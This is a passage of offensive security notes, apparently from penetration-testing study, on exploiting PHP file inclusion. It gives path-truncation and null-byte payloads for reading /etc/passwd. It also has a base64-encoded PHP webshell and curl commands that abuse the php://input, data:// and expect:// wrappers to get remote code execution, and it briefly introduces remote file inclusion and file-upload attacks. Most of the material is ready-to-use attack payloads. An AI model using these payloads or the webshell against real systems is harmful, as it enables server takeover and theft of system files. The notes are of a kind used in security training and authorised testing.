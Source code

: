 **Appended Extension**
Some filters require an extension at the end of our files, such as `.php`. There are two bypasses for this:

Path truncation, where we can just extend our path beyond the maximum checked length. Older versions of PHP have a 4096 character path limit, so we can simply have:
```shell
/etc/passwd/././././././././././... # Repeated to 4096 chars
```
With null byte injection, PHP would terminate a string after a null byte. Therefore our payload can look like:
```shell
/etc/passd%00.php
```
### Finding RCE in PHP Apps
We can check the PHP config file found at `/etc/php/X.Y/apache2/php.ini`. Search for a `base64` string and decode it, this contains our configs. 

We'll need `allow_url_include = On` to be enabled for RCE through the data and input wrappers. The expect wrapper relies on `extension=expect` to be set.

**Data Wrapper**
Used to allow external data including PHP code. It can also be passed `base64` code with `text/plain'base64`, and can decode then execute the PHP code. 

Here's a simple way we can send a payload:
```http
data://text/plain;base64, <PHP webshell> &cmd<cmd>
```

Here's the web shell used:
```shell
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

**Input Wrapper**
Similar to the data wrapper, just we POST the data:
```shell
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

**Include Wrapper**
Allows commands to directly be run through URL streams. It's an external wrapper, so it needs to be manually installed and enabled. 

Example usage:
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
### Remote File Inclusion
With RFI, we're essentially just going to host a file server and have the web server grab a file off of us. Nothing else to really include here. You might have to play around with the protocol though.
# File Upload
### Introduction
File upload attacks involve uploading a file that the user shouldn't be able to. From here, they're able to run that file through accessing it on the web server, often resulting in RCE. If we don't get RCE, we can introduce vulnerabilities such as `XSS` or `XXE`, cause `DoS`, or overwrite system configuration files.
